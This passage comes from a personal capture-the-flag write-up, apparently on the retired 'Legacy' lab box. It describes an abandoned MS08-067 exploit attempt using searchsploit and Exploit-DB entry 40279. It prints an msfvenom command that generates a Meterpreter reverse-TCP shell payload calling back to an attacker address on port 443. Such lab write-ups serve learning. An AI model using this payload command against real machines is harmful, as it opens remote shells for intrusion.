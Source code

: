 If I wanted to take it one step further I could probably have uploaded whoami.exe over to the box to properly run the command, but I don't see any need to do so right now. I've retrieved the flags and we can move on to the next box.

## CVE-2008-4250 (MS08-067) Attempt #1
{: .warning }
ABANDONED: This one was taking too much time. I decided to go back to the drawing board. I feel like I could've made it work eventually, but it wasn't worth continuing on with if there are easier methods out there. Keeping this information here for reference only.

Some searchsploit checks:
![Legacy1](images/Legacy1.png)

Alternatively, or additionally, we can check [Exploit Database](https://exploit-db.com) and use an advanced search to narrow things down.
![Legacy2](images/Legacy2.png)

I decided to start from the top in searchsploit and selected 40279. First, we'll take a look at what exactly this code is doing:
```
searchsploit -x 40279
```
Inside of the code description, we see it gives us a breakdown of the msfvenom code we'll need to generate prior to running this exploit, and it goes something like this:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```
We'll tidy that up here in a moment.
